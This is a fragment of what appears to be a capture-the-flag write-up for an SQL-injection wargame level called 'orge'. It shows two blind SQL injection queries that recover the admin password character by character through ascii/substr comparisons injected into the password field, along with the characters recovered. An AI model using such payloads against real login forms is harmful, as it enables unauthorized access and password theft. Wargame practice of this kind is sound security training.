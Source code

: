 * c

`select id from prob_orge where id='guest' and pw='' || id='admin' && ascii(substr(pw,2,1))=99#'`

<img src="./img/orge3.png" width="700">

* 8

`select id from prob_orge where id='guest' and pw='' || id='admin' && ascii(substr(pw,3,1))=56#'`

<img src="./img/orge4.png" width="700">
